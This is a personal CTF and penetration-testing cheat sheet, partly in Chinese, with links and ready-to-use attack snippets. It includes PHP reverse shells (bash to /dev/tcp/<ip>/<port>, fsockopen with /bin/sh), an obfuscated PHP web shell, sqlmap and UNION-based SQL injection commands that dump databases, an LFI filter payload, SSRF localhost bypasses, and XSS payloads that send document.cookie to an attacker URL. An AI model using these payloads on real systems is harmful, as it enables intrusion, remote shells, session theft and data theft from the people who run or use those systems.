 # Tools

## CTF Tools

* [CyberShef](https://gchq.github.io/CyberChef/#input=8J%2BNo/CfjbTwn42m8J%2BMtPCfjaLwn4278J%2BNs/CfjbTwn42l8J%2BNp/CfjaHwn42u8J%2BMsPCfjafwn42y8J%2BNofCfjbDwn42o8J%2BNufCfjZ/wn42i8J%2BNufCfjZ/wn42l8J%2BNrfCfjLDwn4yw8J%2BMsPCfjLDwn4yw8J%2BMsPCfjarwn42p8J%2BNvQo)
* [Hack Tricks](https://book.hacktricks.xyz/tunneling-and-port-forwarding)
* [Command Injection](https://blog.zeddyu.info/2019/01/17/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/#%E5%8F%8D%E5%BC%95%E5%8F%B7%EF%BC%88%E9%87%8D%E9%9F%B3%E7%AC%A6%EF%BC%89)

### Web Shell
* https://www.webshell.cc/4422.html

### Reverse Shell
* [Reverse Shell大全](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 
* [GitHub List Rev](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

### Crypto
* https://blog.csdn.net/qq_38780085/article/details/79305488
* [BrainFuck](https://gist.github.com/maxcountryman/1699708)

## Hacking Trick

### MD5 Collision
* somd5.com
* cmd5.com

## Paid Software Download

* [免費Java - OpenJDK download](https://adoptopenjdk.net/)
* [Patch My PC](https://patchmypc.com/home-updater)

## Shodan
![](https://i.imgur.com/qBAtBQB.png)

## Reverse Shell Upload File

* https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet


## SQLMAP

### download source

```bash
git clone https://github.com/sqlmapproject/sqlmap
```

### 起手式

```python
python sqlmap.py -o --random-a -u "url" --tamper base64encode -D <DB> -T <TABLE> --dump
```

### 各種參數

- https://xz.aliyun.com/t/3010

```
--dbs
--schema
--batch
-D
-T
--data="<post 參數>"
--random-agent
--tamper base64encode
-technique=U,B --union-cols=number --dbms-mysql
```
### app.any.run

* https://app.any.run/

### 手打

```
union select 1,2,group_concat(schema_name),4 from information_schema.schemata#
```

## PHP

### reverse shell

#### linux
```php
<?=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
```

```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/<ip>/<port> 0>&1'");
?>
```

```php
php -r '$sock=fsockopen(<ip>,<port>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### LFI

```
/?path=php://filter/convert.base64-encode/resource=index.php
```

### SSRF繞過
- `127.0.0.0/8`
- `redirect`
- `http://@127.0.0.1`

```
gethostbyname('127.0.0.1') == '127.0.0.1'
gethostbyname('localhost') == '127.0.0.1'
gethostbyname('localtest.me') == '127.0.0.1'
gethostbyname('@127.0.0.1') == '@127.0.0.1'
```

## XSS

```html
<script>var i=new Image;i.src="<url>/?"+document.cookie;</script>
<svg/onload="document.location='<url>/?'+document.cookie">
```

## 滲透相關，有點東西

* https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/